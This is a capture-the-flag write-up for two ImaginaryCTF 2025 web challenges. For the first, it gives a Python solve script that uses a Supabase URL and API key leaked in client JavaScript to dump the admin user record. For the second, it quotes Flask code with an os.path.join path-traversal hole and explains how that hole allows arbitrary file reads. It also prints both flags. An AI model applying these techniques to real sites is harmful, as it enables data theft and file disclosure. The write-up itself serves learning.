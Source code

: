 -----------

### Imaginary CTF 2025

-----------

![image](https://github.com/user-attachments/assets/a6341580-8aea-42ec-8676-11eda1a5dcc2)

-------------

### Challenges 

-------------

- Web-:
  - Imaginary notes
  - Codenames 1

---------------

### Imaginary-notes

----------------

![image](https://github.com/user-attachments/assets/5a5b57d5-e346-4a49-8be8-9b1b2e1e779b)

-----------------

- We have a Nextjs application.I checked the `view-source` for minified js files and discovered one.

![image](https://github.com/user-attachments/assets/463cf46a-cc68-4ab5-9789-175a7e7c9fd9)

- I visited the page and discovered a minified code with a supabase url and an api key.

![image](https://github.com/user-attachments/assets/6473f555-28f2-4b85-880c-e01c1326433c)

- Solve.py-:

```python3
#! /usr/bin/env python3
from  supabase import Client,create_client

url = "https://dpyxnwiuwzahkxuxrojp.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI"

client =  create_client(url,key)
data = client.table("users").select("*").eq("username","admin").execute()
print(data)
```

- Flag-: ```ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}```

![image](https://github.com/user-attachments/assets/795fd795-7725-4272-9ca8-cdf1c4d4b376)

--------------------

### Codenames 1

--------------------

<img width="794" height="590" alt="image" src="https://github.com/user-attachments/assets/f620acb4-0cec-405e-84e3-68bc09581ecb" />

--------------------

- The main sink is in route `/create_game` and in body query `language`.

```python3
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
        try:
            with open(wl_path) as wf:
                word_list = [line.strip() for line in wf if line.strip()]
        except IOError as e:
            print(e)
            word_list = []
    # fallback if needed
    if not word_list:
        word_list = []
```
- The variable gets passed to the second argumnet in `os.path.join()` which an attacker can control to file read in such a way that abuses `os.path.join()`'s quirk. If the first argument is a relative path and the second path is an absolute one.The function picks the second one which is an absolute and nullifies the first argument. e.g

[image](https://github.com/user-attachments/assets/e5bfe061-b0fb-40b1-8228-a5f48e3df356)

- Exploiting it-:

![image](https://github.com/user-attachments/assets/7d288798-3711-4744-8039-e2a3f537c82b)


- Flag-: ```ictf{common_os_path_join_L_b19d35ca}```

![image](https://github.com/user-attachments/assets/a1591cc9-f887-41f3-ae8e-468b2a9e6073)

----------------




--------------------




